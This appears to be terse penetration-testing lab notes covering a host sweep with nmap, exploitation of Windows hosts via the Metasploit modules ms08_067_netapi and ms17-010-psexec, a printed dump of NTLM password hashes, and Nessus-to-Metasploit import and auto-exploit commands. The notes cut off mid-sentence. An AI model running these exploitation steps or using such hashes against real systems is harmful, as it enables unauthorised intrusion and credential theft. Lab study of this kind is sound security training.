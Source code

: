 10.100.0.1
10.100.0.80
192.168.78.1
192.168.78.10
192.168.78.20
192.168.78.18

```
nmap -sn -oG - 192.168.78.* | awk '/Up$/ {print $2}'
```

192.168.78.10 = xp
	ms08_067_netapi 

```

	got the hashes:
	Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
	eLSAdmin:1003:67fb9805a02c8249aad3b435b51404ee:b0c6522c478a0886fb92544d16c75679:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	HelpAssistant:1000:a88f7de3e682d17fea34bd03086620b5:2b07e52daf608f50d4cd9506c5b0220d:::
	netadmin:1004:6d4c8d28110c649d1f6252914a7633d7:1f1c7bfdba645b14c37dde4465b59542:::
	SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9f79c84005db73e0122f424022f8dbc0:::

```

192.168.78.18
	ms17-010-psexec
	meterpreter shell


//First scan nessus in GUI
//Then we can import and analyses via metasploit

# service postgresql start
# msfdb init

```
load nessus
nessus_connect user:password@localhost
nessus_scan_list
nessus_report_vulns <id>
nessus_report_hosts <id>
nessus_db_import <id>

```

https://github.com/darkoperator/Metasploit-Plugins/blob/master/pentest.rb
load pentest
vuln_exploit


> we can then create a nessus scan with credentials to get better results:
Moreover, set the following SSH credentials:
